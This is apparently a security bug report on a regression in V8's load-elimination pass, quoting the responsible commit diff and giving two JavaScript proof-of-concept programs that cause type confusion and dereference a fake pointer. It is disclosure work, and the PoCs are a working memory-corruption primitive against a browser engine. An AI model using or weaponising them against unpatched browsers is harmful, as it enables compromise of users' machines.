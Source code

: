 I think this commit has introduced the bug: https://chromium.googlesource.com/v8/v8.git/+/9884bc5dee488bf206655f07b8a487afef4ded9b

Reduction LoadElimination::ReduceTransitionElementsKind(Node* node) {
...
     if (object_maps.contains(ZoneHandleSet<Map>(source_map))) {
       object_maps.remove(source_map, zone());
       object_maps.insert(target_map, zone());
-      AliasStateInfo alias_info(state, object, source_map);
-      state = state->KillMaps(alias_info, zone());
-      state = state->AddMaps(object, object_maps, zone());
+      state = state->SetMaps(object, object_maps, zone());
     }
...
}

I think the "state->KillMaps(alias_info, zone());" was accidentally removed. This lack may lead CheckMap instructions to be removed incorrectly.

A PoC demonstrating type confusion:
function opt(a, b) {
    b[0] = 0;

    a.length;

    // TransitionElementsKind
    for (let i = 0; i < 1; i++)
        a[0] = 0;

    // CheckMap removed, type confusion
    b[0] = 9.431092e-317;  // 0x1234567
}

let arr1 = new Array(1);
arr1[0] = 'a';
opt(arr1, [0]);

let arr2 = [0.1];
opt(arr2, arr2);

%OptimizeFunctionOnNextCall(opt);

opt(arr2, arr2);
arr2[0].x  // access 0x1234566

Without natives syntax:
function opt(a, b) {
    b[0] = 0;

    a.length;

    // TransitionElementsKind
    for (let i = 0; i < 1; i++)
        a[0] = 0;

    b[0] = 9.431092e-317;  // 0x1234567

    // Force optimization
    for (let i = 0; i < 10000000; i++) {

    }
}

let arr1 = new Array(1);
arr1[0] = 'a';
opt(arr1, [0]);

let arr2 = [0.1];
opt(arr2, arr2);

opt(arr2, arr2);
arr2[0].x  // access 0x1234566


This bug is subject to a 90 day disclosure deadline. After 90 days elapse
or a patch has been made broadly available, the bug report will become
visible to the public.